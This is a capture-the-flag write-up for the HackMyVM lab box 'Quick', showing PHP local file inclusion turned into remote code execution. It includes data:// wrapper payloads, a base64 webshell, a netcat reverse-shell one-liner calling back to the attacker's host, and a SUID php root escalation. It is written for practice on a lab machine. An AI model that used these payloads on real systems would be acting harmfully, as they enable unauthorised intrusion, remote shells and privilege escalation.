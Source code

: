 ```yaml
---
title: HackMyVM - Quick
date: 2024-01-31
tags: LFI LFI2RCE PHP-LFI
---
```


# Enumeration
- - -
## Ports
Target has only one port open - 80 (HTTP)
I discovered LFI in the endpont
```
http://192.168.56.101/index.php?page=
```
since i know it's PHP, i used some PHP wrappers from [File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#data)
- Get `/etc/passwd`
```
data://text/plain,<?php echo base64_encode(file_get_contents("/etc/passwd")); ?>
```
# Foothold
- - -
I see there's a user `andrew` on the target and i can read their home directory which contains the user flag.
I'll use one of the payloads to get RCE and retrieve user flag
Payload:
```
data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

Request:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="cat+/home/andrew/user.txt""
```
The content of the base64 is
```
<?php system($_GET['cmd']);echo 'Shell done !'; ?>
```
Result:
```
    <main>


                                 _________
                          _.--""'-----,   `"--.._
                       .-''   _/_      ; .'"----,`-,
                     .'      :___:     ; :      ;;`.`.
                    .      _.- _.-    .' :      ::  `..
                 __;..----------------' :: ___  ::   ;;
            .--"". '           ___.....`:=(___)-' :--'`.
          .'   .'         .--''__       :       ==:    ;
      .--/    /        .'.''     ``-,   :         :   '`-.
   ."', :    /       .'-`\\       .--.\ :         :  ,   _\
  ;   ; |   ;       /:'  ;;      /__  \\:         :  :  /_\\
  |\_/  |   |      / \__//      /"--\\ \:         :  : ;|`\|
  : "  /\__/\____//   """      /     \\ :         :  : :|'||
["""""""""--------........._  /      || ;      __.:--' :|//|
 "------....______         ].'|      // |--"""'__...-'`\ \//
   `|HMV{flag-flag}|.--'": :  \    //  |---"""      \__\_/
     """""""""'            \ \  \_.//  /
       `---'                \ \_     _'
                             `--`---'
```

# Privilege Escalation 
- - -
- Get reverse shell using this payload:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%203371%20%3E%2Ftmp%2Ff""
```
- Stabilize the shell
Looking at he `SUID` binaries i see an unusual binary `/usr/bin/php7.0` according to [php | GTFOBins](https://gtfobins.github.io/gtfobins/php/) i can spawn a shell as root:
```
/usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
```
- retieve root flag
```
# cat /root/root.txt


            ___.............___
         ,dMMMMMMMMMMMMMMMMMMMMMb.
        dMMMMMMMMMMMMMMMMMMMMMMMMMb
        |        | -_  - |        |
        |        |_______|___     |
        |     ___......./'.__`\   |
        |_.-~"               `"~-.|
        7\         _...._        |`.
       /  l     .-'      `-.     j  \
      :   .qp. / __________ \ .qp.   :
      |  d8888b |          | d8888b  |
  .---:  `Y88P|_|__________|_|Y88P'\/`"-.
 /     : /,------------------------.:    \
:      |`.    | | [_FLAG_] ||     ,'|     :
`\.____|  `.  : `.________.'|   ,'  |____.'
  MMMMM|   |  |`-.________.-|  /    |MMMMM
 .-------------`------------'-'-----|-----.
(___HMV{root-flag}__)
  MMMMMM                            MMMMMM
  `MMMM'                            `MMMM'
```
